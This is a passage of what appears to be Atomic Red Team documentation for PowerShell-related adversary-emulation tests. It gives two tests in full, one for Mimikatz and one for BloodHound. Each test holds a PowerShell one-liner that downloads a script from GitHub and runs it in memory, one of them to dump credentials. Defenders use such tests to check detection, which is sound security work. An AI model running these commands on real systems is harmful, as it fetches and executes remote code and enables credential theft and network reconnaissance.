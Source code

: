 - [Atomic Test #13 - PowerShell Downgrade Attack](#atomic-test-13---powershell-downgrade-attack)

- [Atomic Test #14 - NTFS Alternate Data Stream Access](#atomic-test-14---ntfs-alternate-data-stream-access)


<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```






<br/>
<br/>

## Atomic Test #2 - BloodHound
Download Bloodhound and run it

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bloodurl | BloodHound URL | url | https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1|


#### Attack Commands: Run with `command_prompt`! 
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{bloodurl}'); Invoke-BloodHound"
```






<br/>
<br/>
